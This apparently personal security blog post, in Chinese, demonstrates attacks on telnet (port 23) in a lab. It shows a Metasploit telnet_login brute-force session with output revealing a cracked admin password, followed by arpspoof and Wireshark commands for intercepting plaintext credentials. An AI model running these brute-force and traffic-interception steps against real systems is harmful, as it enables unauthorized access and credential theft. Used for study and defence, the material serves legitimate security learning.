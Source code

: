 ```yaml
---
layout:     post
title:      "23端口漏洞利用"
subtitle:   "简单介绍了Metasploit的使用"
date:       2020-03-26
author:     "Malcolm Suen"
header-img: "img/post-bg-2015.jpg"
header-mask:  0.3
catalog: true
tags:
    - 高危端口
    - 漏洞利用
    - Inspur
---
```


## Metasploit暴破telnet

终端输入命令

```shell
msfconsole

msf5 > search telnet

Matching Modules
================

   #   Name                                                               Disclosure Date  Rank       Check  Description
   -   ----                                                               ---------------  ----       -----  -----------
   # 找到对应模块
   9   auxiliary/scanner/telnet/telnet_login                                               normal     No     Telnet Login Check Scanner


msf5 > use auxiliary/scanner/telnet/telnet_login 
msf5 auxiliary(scanner/telnet/telnet_login) > show options 

Module options (auxiliary/scanner/telnet/telnet_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             23               yes       The target port (TCP)
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts
   # 通过show options发现，需要设置PASS_FILE、USER_FILE、（USERPASS_FILE）、RHOSTS几个参数

msf5 auxiliary(scanner/telnet/telnet_login) > set rhosts 10.10.4.123
rhosts => 10.10.4.123
msf5 auxiliary(scanner/telnet/telnet_login) > set USER_FILE dic_username_telnet.txt
USER_FILE => dic_username_telnet.txt
msf5 auxiliary(scanner/telnet/telnet_login) > set PASS_FILE dic_password_telnet.txt
PASS_FILE => dic_password_telnet.txt
msf5 auxiliary(scanner/telnet/telnet_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true		# 成功时停止

msf5 auxiliary(scanner/telnet/telnet_login) > run
#	爆破成功
[+] 10.10.4.123:23        - 10.10.4.123:23 - Login Successful: admin:admin12345
```

## Wireshark嗅探抓取telnet明文账户密码

Wireshark是一个网络封包分析软件。网络封包分析软件的功能是抓取网络封包，并尽可能显示出最为详细的网络封包资料。Wireshark使用WinPCAP作为接口，直接与网卡进行数据报文交换。

我们可以利用arpspoof拦截转发同一网段下其他用户流量，再使用Wireshark来分析查看流量。

使用Wireshark抓取信息需要确保三台机器在同一网段下，虚拟机Alice使用telnet登录虚拟机Bob时，攻击端可以抓取明文密码。

使用arpspoof开启流量转发，别人的流量经过此处也可转发出去。Kali Linux上可能没有arpspoof，使用`apt-get install dsniff`进行安装（arpspoof是dsniff的一个工具）。

```shell
cat /proc/sys/net/ipv4/ip_forward	#查看转发是否开启，0为关闭，1为开启，一般Kali Linux默认开启。
```

开启转发后，使用arpspoof转发流量：

```shell
arpspoof -i eth0 -t 192.168.109.128 192.168.109.0
# arpspoof -i 网卡 -t [target IP] 网关
```

打开Wireshark进行抓包，输入过滤规则：

```shell
ip.addr==目标IP && tcp.port==23
```

![](/img/in-post/2020-03-26/01.png)

> 参考资料：
>
> [Wireshark嗅探抓取telnet明文账户密码](https://www.cnblogs.com/MyGuazi/p/11852981.html)











